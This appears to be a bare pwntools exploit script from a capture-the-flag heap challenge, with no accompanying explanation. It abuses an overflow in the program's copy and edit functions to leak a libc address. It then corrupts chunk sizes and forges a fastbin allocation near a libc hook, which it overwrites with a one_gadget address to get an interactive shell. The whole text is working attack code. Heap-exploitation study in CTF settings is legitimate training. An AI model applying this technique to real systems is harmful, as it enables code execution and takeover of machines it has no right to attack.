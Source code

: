 ```python=
def copy(src,dst):
    r.sendlineafter(':', '4')
    r.sendlineafter(':', str(src))
    r.sendlineafter(':', str(dst))

def delete(idx):
    r.sendlineafter(':', '5')
    r.sendlineafter(':', str(idx))

for i in range(7):
    create(0x60)
    delete(0)

for i in range(7):
    create(0x400)
    delete(0)

create(0x80)
create(0x400)
create(0x80)
create(0x400)
create(0x80)
create(0x60)
create(0x60)
create(0x80)
delete(1)

edit(3, 'A'*0x100 + '\n')
copy(3, 0)
show(0)

r.recvn(0x91)
libc = u64(r.recvn(8)) - 0x3ebca0
print('libc', hex(libc))

delete(6)
delete(5)

copy(3, 4)
edit(3, 'A'*0x90 + p64(libc+0x3ebc30-0x28+5))
copy(3, 4)

for i in range(6,-1, -1):
    edit(3, 'A'*(0x88+i) + p64(0x71) )
    copy(3, 4)
create(0x60)
create(0x60)

one_gadget = libc+0x4f322
edit(5, 'A'*0x13 + p64(one_gadget))
delete(0)
create(0)

r.interactive()
```
